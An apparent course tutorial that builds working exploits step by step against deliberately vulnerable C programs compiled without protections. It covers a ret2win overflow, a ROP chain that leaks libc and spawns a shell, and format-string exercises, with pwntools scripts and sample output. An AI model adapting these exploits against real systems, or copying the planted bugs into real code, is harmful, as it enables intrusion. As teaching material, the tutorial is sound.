

# BoF → shell: a complete exploit from zero

> Reproduce every command on your Linux VM. It will work first try if you follow step by step.

## The vulnerable source

`vuln.c`:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("you reached win() — flag: {pwnedcode}\n");
    system("/bin/sh");
}

void greet() {
    char buf[64];
    printf("Inserisci nome: ");
    fflush(stdout);
    read(0, buf, 256);   // bug: legge 256 byte in un buffer da 64
    printf("Ciao %s\n", buf);
}

int main() {
    greet();
    return 0;
}
```

What's here:
- `read(0, buf, 256)` reads up to 256 bytes into a 64-byte buffer → **overflow of 192 bytes past buf**.
- `win()` is a "target" function never called by normal flow.

## Step 1 — compile with protections disabled

```bash
gcc -fno-stack-protector -no-pie -z execstack -O0 -g vuln.c -o vuln
```

Flag explanation:
- `-fno-stack-protector` → no canary.
- `-no-pie` → fixed code addresses (binary not relocated).
- `-z execstack` → executable stack (needed if we want shellcode on the stack; not necessary for ret-to-win).
- `-O0` → no optimization, predictable code.
- `-g` → debug symbols.

Verify with `checksec`:
```bash
checksec --file=./vuln
```
Expected output:
```
RELRO       STACK CANARY    NX            PIE           Symbols
Partial RELRO   No canary found   NX enabled    No PIE       103 Symbols
```

(NX is still on — that's fine for now.)

## Step 2 — run it to understand input/output

```bash
./vuln
# Inserisci nome: Alice
# Ciao Alice
```

Now try an overflow:
```bash
python3 -c "print('A'*100)" | ./vuln
# Ciao AAAA...AAA
# Segmentation fault (core dumped)
```

**Crash**. The CPU tried to return to `0x4141414141414141` (8 bytes of 'A' in the return address) → unmapped address → segfault.

## Step 3 — find the exact offset

Use a **non-repeating pattern** (de Bruijn sequence). pwntools:

```python
# find_offset.py
from pwn import *
context.update(arch='amd64', os='linux')
io = process('./vuln')
io.recvuntil(b': ')
io.sendline(cyclic(200))
io.wait()
core = io.corefile
print(f"RIP overwritten with: {hex(core.fault_addr)}")
print(f"Offset: {cyclic_find(core.fault_addr & 0xffffffff)}")
```

```bash
python3 find_offset.py
# RIP overwritten with: 0x6161617661616175  ← de Bruijn pattern
# Offset: 72
```

**72 bytes** (64 buf + 8 saved RBP) before RIP. (It can vary: the compiler may add padding. On some systems it's 80.)

### Visualized

<figure class="diagram">
<svg viewBox="0 0 540 380" width="540" height="380" xmlns="http://www.w3.org/2000/svg">
  <style>
    .lbl { font-family: 'JetBrains Mono', monospace; font-size: 13px; fill: #e8eef0; }
    .addr { font-family: 'JetBrains Mono', monospace; font-size: 11px; fill: #8a9499; }
    .note { font-family: 'JetBrains Mono', monospace; font-size: 11.5px; fill: #ffe066; }
    .pay { font-family: 'JetBrains Mono', monospace; font-size: 11.5px; fill: #ff3da6; }
  </style>
  <text x="170" y="20" class="addr" text-anchor="middle">high addresses</text>
  <!-- return address -->
  <rect x="40" y="30" width="260" height="40" fill="#3a0b0b" stroke="#ff4d4d" stroke-width="2"/>
  <text x="170" y="55" class="lbl" text-anchor="middle">return address (8 bytes)</text>
  <text x="310" y="55" class="note">← bytes 73-80</text>
  <!-- saved RBP -->
  <rect x="40" y="70" width="260" height="40" fill="#3a2a00" stroke="#ffe066" stroke-width="2"/>
  <text x="170" y="95" class="lbl" text-anchor="middle">saved RBP (8 bytes)</text>
  <text x="310" y="95" class="note">← bytes 65-72</text>
  <!-- buf 63 -->
  <rect x="40" y="110" width="260" height="220" fill="#0b3a1a" stroke="#00ff9c" stroke-width="2"/>
  <text x="170" y="135" class="lbl" text-anchor="middle">buf[63]</text>
  <text x="170" y="200" class="lbl" text-anchor="middle">...</text>
  <text x="170" y="270" class="lbl" text-anchor="middle">buf[1]</text>
  <text x="170" y="320" class="lbl" text-anchor="middle">buf[0]</text>
  <text x="310" y="135" class="note">← byte 64</text>
  <text x="310" y="320" class="note">← byte 1 (RSP)</text>
  <text x="170" y="355" class="addr" text-anchor="middle">low addresses</text>
  <!-- payload arrow -->
  <text x="430" y="40" class="pay">PAYLOAD:</text>
  <text x="430" y="60" class="pay">72×'A'</text>
  <text x="430" y="80" class="pay">+ 8B addr</text>
  <text x="430" y="100" class="pay">(little-endian)</text>
  <line x1="420" y1="55" x2="305" y2="55" stroke="#ff3da6" stroke-width="1.5" marker-end="url(#a2)"/>
  <line x1="420" y1="200" x2="305" y2="200" stroke="#ff3da6" stroke-width="1.5" marker-end="url(#a2)"/>
  <text x="430" y="200" class="pay">writes here</text>
  <text x="430" y="220" class="pay">→ overwrites</text>
  <text x="430" y="240" class="pay">everything</text>
  <defs>
    <marker id="a2" viewBox="0 0 10 10" refX="8" refY="5" markerWidth="6" markerHeight="6" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="#ff3da6"/>
    </marker>
  </defs>
</svg>
<figcaption>Stack frame of greet() — the 256-byte overflow starts at buf[0] and reaches well past the return address</figcaption>
</figure>

## Step 4 — find the address of `win()`

```bash
nm ./vuln | grep win
# 0000000000401196 T win
```

`win` is at `0x401196` (because of `-no-pie`: fixed addresses).

In gdb:
```
(gdb) disas win
   0x0000000000401196 <+0>:     endbr64
   0x000000000040119a <+4>:     push   rbp
   ...
```

`0x401196` is the entry point.

## Step 5 — build the payload

```python
# exploit.py
from pwn import *

context.update(arch='amd64', os='linux')

WIN = 0x401196

payload  = b"A" * 72
payload += p64(WIN)

io = process('./vuln')
io.recvuntil(b': ')
io.sendline(payload)
io.interactive()
```

Explanation:
- `p64(WIN)` packs `0x0000000000401196` as **8 bytes little-endian**: `\x96\x11\x40\x00\x00\x00\x00\x00`.
- 72 'A's fill buf + saved RBP.
- The next 8 bytes overwrite the return address with the address of `win`.

Run:
```bash
python3 exploit.py
# [+] Starting local process './vuln': pid 12345
# [*] Switching to interactive mode
# Inserisci nome: Ciao AAAAA...AAAA
# you reached win() — flag: {pwnedcode}
# $ id
# uid=1000(alice) gid=1000(alice) groups=1000(alice)
# $ whoami
# alice
```

**You have a shell.** You bypassed the program's normal flow.

## Step 6 — variant: stack alignment issue

Sometimes `system("/bin/sh")` crashes with `movaps` (SIGSEGV in libc). Cause: RSP not aligned to 16 bytes. Fix: before jumping to `win`, jump to a `ret` gadget (aligns by subtracting 8 bytes from RSP).

```python
RET_GADGET = 0x40101a    # look for a "ret" in objdump
payload = b"A"*72 + p64(RET_GADGET) + p64(WIN)
```

ROPgadget:
```bash
ROPgadget --binary ./vuln --only "ret"
```

## Step 7 — with ASLR ON, no `win()`: ROP is needed

Recompile without `win`:
```c
// vuln2.c
#include <stdio.h>
#include <unistd.h>
int main() {
    char buf[64];
    read(0, buf, 256);
    return 0;
}
```

```bash
gcc -fno-stack-protector -no-pie -O0 vuln2.c -o vuln2
```

**No `win`** — we need to call `system("/bin/sh")` from libc. But ASLR randomizes libc → you don't know the address. So:

### Step 7.1 — leak a libc address

We use the PLT (`puts@plt`) to print the contents of the GOT of `puts` (which after the first call contains the *real* address of `puts` in libc).

```bash
objdump -d ./vuln2 | grep -E "puts@plt|read@plt"
# does vuln2 have puts? no, maybe only read and write.
# Let's rewrite it:
```

Version that uses `puts`:
```c
#include <stdio.h>
#include <unistd.h>
int main() {
    char buf[64];
    puts("hi");           // forza il binding di puts
    read(0, buf, 256);
    return 0;
}
```

Compile as above. Now:
```bash
objdump -d ./vuln2 | grep "puts@plt"
# 0000000000401050 <puts@plt>:
objdump -R ./vuln2 | grep puts
# 0000000000404018  R_X86_64_JUMP_SLOT puts@GLIBC_2.2.5  ← GOT entry
```

`puts@plt = 0x401050`, `puts@got = 0x404018`.

### Step 7.2 — what a ROP gadget is (the part everyone glosses over)

A **gadget** is a **sequence of asm instructions already present in the binary or in libraries** that ends with `ret`. E.g.:

```
pop rdi
ret
```

These are just two bytes of code: `5F C3` (`5F` = `pop rdi`, `C3` = `ret`). They occur by accident inside existing functions.

**Why they work:** when you place the gadget's address on the stack where the return address goes, the `ret` jumps there. The CPU executes `pop rdi` (which pulls the next value from the stack into RDI), then `ret` (which jumps to the next one). So, by putting this sequence on the stack:

```
[ &(pop rdi; ret) ]   ← 1st value: gadget address
[ 0xCAFEBABE      ]   ← 2nd value: ends up in RDI after pop
[ &(function)     ]   ← 3rd value: new "return", CPU jumps to it at end of gadget
```

…the CPU effectively executes: set `RDI = 0xCAFEBABE`, jump to `function`. **You called a function with a controlled argument without any original `call` from the program.**

#### Visualizing gadget execution



#### Chaining multiple gadgets

Want RSI and RDX too? Find gadgets like `pop rsi; pop r15; ret` and place them in sequence. The "chain" is a list of values on the stack that the CPU consumes one at a time.

#### How to find gadgets

`ROPgadget` scans every executable section of the binary looking for bytes like `5F C3` and shows where they start:

```bash
ROPgadget --binary ./vuln2 --only "pop|ret" | grep "pop rdi"
# 0x000000000040118a : pop rdi ; ret
```

Result: `pop rdi; ret` is at address `0x40118a` in the binary. Save it as `POP_RDI`.

> Without `-no-pie`, the binary has a randomized base → the relative offset is fixed but the base isn't → you must leak a code address before using binary gadgets. Often libc gadgets are preferred after leaking the libc base.

### Step 7.3 — ROP for the leak

```python
# leak.py
from pwn import *
context.update(arch='amd64', os='linux')

elf = ELF('./vuln2')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

POP_RDI = 0x40118a
RET     = 0x40101a   # gadget ret puro
MAIN    = elf.symbols['main']

io = process('./vuln2')
io.recvuntil(b'hi\n')

# Payload: leak puts@got, poi ritorna a main per fare round 2
payload = b"A"*72
payload += p64(POP_RDI)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(MAIN)              # ritorna a main per chiedere un secondo input
io.sendline(payload)

# leggi 8 byte di leak
puts_leak = u64(io.recvline().strip().ljust(8, b'\x00'))
print(f"puts leak: {hex(puts_leak)}")

# Calcola base libc
libc.address = puts_leak - libc.symbols['puts']
print(f"libc base: {hex(libc.address)}")

# Round 2: chiama system("/bin/sh")
SYSTEM   = libc.symbols['system']
BIN_SH   = next(libc.search(b"/bin/sh\x00"))
print(f"system: {hex(SYSTEM)}, /bin/sh: {hex(BIN_SH)}")

payload2 = b"A"*72
payload2 += p64(RET)              # stack align
payload2 += p64(POP_RDI)
payload2 += p64(BIN_SH)
payload2 += p64(SYSTEM)
io.sendline(payload2)
io.interactive()
```

Run:
```bash
python3 leak.py
# [+] Starting local process './vuln2': pid 23456
# puts leak: 0x7f8e3a5e7c50
# libc base: 0x7f8e3a567000
# system: 0x7f8e3a5b4d50, /bin/sh: 0x7f8e3a716678
# $ id
# uid=1000(alice) ...
```

### Explanation of each payload element (line by line)

**Round 1 — leak payload.** Anatomy with annotations:

<figure class="diagram">
<svg viewBox="0 0 660 280" width="660" height="280" xmlns="http://www.w3.org/2000/svg">
  <style>
    .lbl { font-family: 'JetBrains Mono', monospace; font-size: 12px; fill: #e8eef0; }
    .annot { font-family: 'JetBrains Mono', monospace; font-size: 11px; fill: #ffe066; }
    .off { font-family: 'JetBrains Mono', monospace; font-size: 11px; fill: #8a9499; }
  </style>
  <!-- offset col -->
  <text x="20"  y="40"  class="off">off 0</text>
  <text x="20"  y="80"  class="off">off 72</text>
  <text x="20"  y="120" class="off">off 80</text>
  <text x="20"  y="160" class="off">off 88</text>
  <text x="20"  y="200" class="off">off 96</text>
  <!-- payload boxes -->
  <rect x="80" y="20" width="240" height="40" fill="#0b3a1a" stroke="#00ff9c"/>
  <text x="200" y="44" class="lbl" text-anchor="middle">'A' × 72 (padding)</text>
  <rect x="80" y="60" width="240" height="40" fill="#3a2a00" stroke="#ffe066"/>
  <text x="200" y="84" class="lbl" text-anchor="middle">POP_RDI gadget addr</text>
  <rect x="80" y="100" width="240" height="40" fill="#0b3a3a" stroke="#00e6ff"/>
  <text x="200" y="124" class="lbl" text-anchor="middle">puts@got (arg for pop rdi)</text>
  <rect x="80" y="140" width="240" height="40" fill="#3a2a00" stroke="#ffe066"/>
  <text x="200" y="164" class="lbl" text-anchor="middle">puts@plt (calls puts)</text>
  <rect x="80" y="180" width="240" height="40" fill="#3a0b3a" stroke="#ff3da6"/>
  <text x="200" y="204" class="lbl" text-anchor="middle">main (return = restart)</text>
  <!-- annotations -->
  <text x="340" y="44" class="annot">→ fills buf + saved RBP</text>
  <text x="340" y="84" class="annot">→ CPU jumps here at ret</text>
  <text x="340" y="124" class="annot">→ pop rdi: RDI = &puts@got</text>
  <text x="340" y="164" class="annot">→ calls puts(RDI) → prints</text>
  <text x="340" y="204" class="annot">→ restarts main for round 2</text>
  <text x="80" y="260" class="lbl">All on the stack AFTER the original return address: the CPU consumes one at a time via ret.</text>
</svg>
<figcaption>Anatomy of the round-1 ROP payload — every 8 bytes is one action</figcaption>
</figure>

**Step-by-step chain execution** (what the CPU does after `main`'s `ret`):

| Step | RIP | Stack pointer  | What happens |
|------|-----|----------------|--------------|
| 1 | `POP_RDI` | points to `puts@got` | `pop rdi` → RDI = `puts@got` |
| 2 | `puts@plt` | points to `main` | executes `puts(RDI)` → prints libc address of puts |
| 3 | `main` | points to the "A"s below (broken, but doesn't matter) | `main` restarts, asks for new input |

**Computing the libc base after the leak:**

```python
libc.address = puts_leak - libc.symbols['puts']
```

- `puts_leak` = e.g. `0x7f8e3a5e7c50` (absolute address in memory, randomized by ASLR).
- `libc.symbols['puts']` = e.g. `0x80c50` (constant offset of `puts` inside the `libc.so.6` binary).
- `libc.address` = the difference = absolute base where libc is loaded in this run.

From here we can compute the address of **any** libc function: `system = libc.address + libc.symbols['system']`, strings like `/bin/sh` with `next(libc.search(b"/bin/sh\x00"))`.

**Round 2 — final payload (the shell):**

| Slot | Value | Effect |
|------|-------|--------|
| `'A' × 72` | padding | fills buf+RBP |
| `RET` | pure `ret` gadget | aligns RSP to 16 bytes (required by `movaps` in `system`) |
| `POP_RDI` | `pop rdi; ret` | next value into RDI |
| `&"/bin/sh"` | string in libc | argument 1 |
| `SYSTEM` | `libc.address + offset_system` | calls `system("/bin/sh")` |

Result: a shell drops at your feet.

> **Mental summary**: stack overflow → control RIP → with ROP I build a "virtual machine" of sequential calls → the first one leaks (because ASLR), the second invokes system. **No shellcode**, **no stack execution**, **everything with code that already exists**.

## Step 8 — Understanding mitigation flags

Recompile with all of them:
```bash
gcc vuln.c -o vuln_safe
checksec --file=./vuln_safe
```

```
RELRO          STACK CANARY      NX            PIE
Full RELRO     Canary found      NX enabled    PIE enabled    103 Symbols
```

- **Canary**: 8 random bytes between buf and saved RBP. If overwritten, abort.
- **PIE**: the binary itself has randomized addresses each run.
- **Full RELRO**: GOT read-only (no GOT overwrite).

Without an info-leak of the canary and binary base, BoF doesn't work. **Combined with:**
- **ASLR**: random libc/stack/heap.

Bypass: you need a second bug (info-leak) that leaks the canary, binary base, and libc base.

### Modern compiler hardening

GCC 12+ + glibc 2.38+ add further checks:
- **_FORTIFY_SOURCE=3**: checks on `strcpy`, `read` with known buffer size.
- **SafeStack** (LLVM): separate stack for pointers / data.
- **CET** (Intel): hardware shadow stack + Indirect Branch Tracking. Available on recent CPUs.

## Step 9 — real-world case: CVE as an exploit-dev mindset

Typical vulnerability research chain (simplified):
1. **Fuzzing** (AFL++) finds a crash in libtarget.
2. **Triage**: is the crash exploitable? Does it overwrite RIP/function ptr?
3. **Stabilization**: make the crash deterministic.
4. **Primitives**: turn the crash into a "leak" or "write" primitive.
5. **Exploit**: chain primitives into a shell.

Modern tools (AFL++ + ASAN + sancov) speed up steps 1-3. Steps 4-5 remain art.

## Step 10 — Extensions and continued practice

- **Ret2dlresolve** (when leaking the libc address is impossible).
- **Stack pivoting** when the writable stack is small.
- **House of ...** for the heap.
- **Format string** for arbitrary read+write primitives.

Resources:
- **ROP Emporium** (https://ropemporium.com): guided ROP challenges with increasing difficulty.
- **pwn.college**: structured course.
- **pwnable.kr**, **pwnable.tw**, **HackTheBox pwn**.

## Exercises

### Ex 14b.1 — Reproduce step by step
Reproduce the entire sections 1-6 on your VM. Document every step with screenshots/output. When you reach the shell, count the minutes from the start.

### Ex 14b.2 — Modify and adapt
Change the buffer size from 64 to 128. What's the new offset?

### Ex 14b.3 — With canary
Recompile with `-fstack-protector-all`. Modify the payload. Without modifying the program, run it. What happens at the ret?

Answer: the canary gets overwritten → `__stack_chk_fail` → abort. To bypass it you first need to leak the canary (info leak).

### Ex 14b.4 — ROP Emporium
Go to [ropemporium.com](https://ropemporium.com). Complete "ret2win", "split", "callme", "write4". They are guided and progressive.

### Ex 14b.5 — Format string
Compile:
```c
#include <stdio.h>
int secret = 0xdeadbeef;
int main() {
    char buf[100];
    fgets(buf, 100, stdin);
    printf(buf);
    return 0;
}
```

With `gcc -fno-stack-protector -no-pie`. Input `%p %p %p %p %p`. You see stack addresses. Leak it, then use `%n` to write.

### Ex 14b.6 — CVE case study
Study [CVE-2017-7269](https://www.exploit-db.com/exploits/41738) (IIS 6.0 ScStoragePathFromUrl) — a classic example of stack-based BoF in production. Understand the chain.

## Key concepts

1. **Stack-based BoF** is 50 years old and still one of the most common.
2. **Offset** = buf size + saved RBP (usually).
3. **Without protections** → trivial ret2win.
4. **NX on** → ROP.
5. **ASLR on** → info-leak required first.
6. **Canary on** → leak the canary or frameless overflow required.
7. **Modern full mitigations + CET** → exploit requires 2-3 separate bugs and creativity.

Now "stack overflow" is no longer a word — it's your own experience, reproducible, debugged.
